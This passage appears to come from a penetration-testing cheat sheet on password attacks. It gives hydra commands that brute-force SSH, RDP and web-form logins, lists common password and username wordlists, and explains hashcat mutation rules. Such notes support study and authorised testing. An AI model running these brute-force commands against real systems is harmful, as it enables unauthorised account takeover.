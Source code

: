 Find the `-m` flag for hashcat
```
hashcat -h | grep -i "hash_name"
```

### Attacking Network Services Logins

#### SSH and RDP
Password brute force:
```
sudo hydra -l username -P /path/to/wordlist -s $rport ssh://$rhost
```

User brute force:
```
sudo hydra -L namelist -P "p@ssw0rd" -s $rport rdp://$rhost
```

HTTP POST:

Get your data via burp and use here!
```
sudo hydra -l username -P /path/to/wordlist $rhosts http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed. Invalid"
```
#### Wordlists

For passwords:
```
/wordlist/rockyou.txt
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
/usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt
```

For userlist:
```
/dirb/common/names.txt
/seclists/Usernames/Names/names.txt
/seclists/Usernames/top-usernames-shortlist.txt
```

### Mutating Lists
[hashcat Rule-based Attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)

Create a file with `$1` which is append 1 to the wordlist
```
echo \$1 > demo.rule
```

The result is that the first character of each password is capitalized AND a “1” is appended to each password:
```
cat demo1.rule
$1 c
```

In this case, each rule is used separately, resulting in two mutated passwords for every password from the wordlist
```
cat demo2.rule
$1
c
```

